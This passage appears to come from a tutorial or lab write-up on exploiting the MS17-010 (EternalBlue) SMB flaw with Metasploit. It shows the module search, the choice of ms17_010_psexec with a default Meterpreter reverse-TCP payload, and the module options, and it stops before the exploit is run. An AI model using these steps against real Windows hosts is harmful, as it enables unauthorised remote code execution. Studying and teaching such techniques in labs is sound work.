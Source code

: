 ### MS017-010 (Using Metasploit)

```bash
 msf6 > search ms17-010
 Matching Modules
 #  Name                                           Disclosure Date  Rank     Check  Description
    ----                                           ---------------  ----     -----  -----------
 0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
 1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
 2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
 3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
 4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
 5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution 
```
[__MS17-010__](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/){:target="_blank"} is also known as EternalBlue exploit by Microsoft, that affects only Windows Operating System which
uses the SMBv1 (Server Message Block version 1). SMBv1 is a network communication protocol which enable 
shared access to files, printers and ports. Later on, it is very risky of being targeted by ransomware and 
other attacks.

As all the exploits are mentioned above, I will choose the appropriate for Remote Code Execution, that is,
exploit/windows/smb/ms17_010_psexec (use 4).

```bash
 msf6 > use 4
 [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
 msf6 exploit(windows/smb/ms17_010_psexec) > show options
 Module options (exploit/windows/smb/ms17_010_psexec):
 Name                  Current Setting                                             Required  Description
 ----                  ---------------                                             --------  -----------
DBGTRACE              false                                                         yes       Show extra debug trace info
LEAKATTEMPTS          99                                                            yes       How many times to try to leak transaction
NAMEDPIPE                                                                           no        A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES         /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
RHOSTS                                                                              yes       The target host(s)
RPORT                 445                                                           yes       The Target port (TCP)
SERVICE_DESCRIPTION                                                                 no        Service description 
SERVICE_DISPLAY_NAME                                                                no        The service display name
SERVICE_NAME                                                                        no        The service name
SHARE                 ADMIN$                                                        yes       The share to connect to
SMBDomain             .                                                             no        The Windows domain to use for authentication
```